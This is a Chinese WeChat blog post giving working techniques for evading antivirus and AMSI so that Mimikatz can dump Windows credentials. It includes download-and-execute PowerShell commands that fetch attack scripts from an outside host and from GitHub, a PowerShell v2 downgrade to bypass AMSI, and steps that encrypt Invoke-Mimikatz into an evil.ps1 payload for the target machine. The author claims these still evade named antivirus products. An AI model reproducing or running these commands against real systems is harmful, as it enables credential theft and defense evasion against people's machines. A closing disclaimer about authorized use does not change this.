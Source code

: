 ##  powershell免杀抓密码姿势

原创 tubai  [ 花指令安全实验室 ](javascript:void\(0\);)

**花指令安全实验室** ![]()

微信号 junk-code

功能介绍 专注于红蓝安全攻防研究的优质平台

____

__

收录于话题

  
前言：  
今天给大家分享两个利用powershell来bypass杀软抓密码技巧，亲测目前不杀。  
注：本号首发在了土司 https://www.t00ls.net/thread-62167-1-1.html  
一.

  

利用powershell v2绕过amsi抓windows密码（前提是win10机器需要.net3.0以上）

当我们实用原始的powershell执行经典的抓密码发现，是被amsi阻止的  

  * 

    
    
    powershell -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://192.168.52.134:6688/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805110810.png)  

  

此时我们利用降维攻击，强制使用PowerShell v2绕过 amsi，因为版本2没有支持AMSI的必要内部挂钩  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805110812.png)  

  

可以看到成功绕过了amsi的检测执行成功mimikatz抓到了密码！

二.

使用Out-EncryptedScript加密免杀抓取密码（亲测目前可绕过某绒和某60）

Out-EncryptedScript是Powersploit中提供工具的一种，他是用来进行加密处理的脚本，首先我们将Out-
EncryptedScript.ps1与Invoke-Mimikatz.ps1放到同一目录下  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805110813.png)

  

依次执行如下命令  

  *   *   * 

    
    
    powershell.exeImport-Module .\Out-EncryptedScript.ps1Out-EncryptedScript -ScriptPath .\Invoke-Mimikatz.ps1 -Password tubai -Salt 123456

  
  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805110814.png)  

  

目录下便会自动生成evil.ps1文件，上传到目标机器即可  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805110813.png)  

  

在目标机器依次执行如下命令  

  *   *   *   *   *   *   * 

    
    
    powershell.exeIEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/mimikatz/Out-EncryptedScript.ps1")  注：由于https://raw.githubusercontent.com/不稳地，我本人是放在自己的阿里云上的。[String] $cmd = Get-Content .\evil.ps1Invoke-Expression $cmd$decrypted = de tubai 123456Invoke-Expression $decryptedInvoke-Mimikatz

  
  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805110815.png)  

如下，便成功绕过了杀软，成功的抓到了密码  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805110816.png)  

  

三

  

总结：

绕过AV的方式层出不穷，powershell在内网渗透方面利用的方式非常多，远远不止免杀与信息收集，希望大家能在授权的情况下，玩转自己的绕过思路，都能总结出自己的一些bypass小技巧！  

声明:文章初衷仅为攻防研究学习交流之用，严禁利用相关技术去从事一切未经合法授权的入侵攻击破坏活动，因此所产生的一切不良后果与本文作者及该公众号无关

若各位师傅有更多姿势，或想与我一起交流学习，可加我VX：  

‍‍‍![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805110818.png)  

分享收藏点赞在看

  

  
  

  

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

powershell免杀抓密码姿势

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

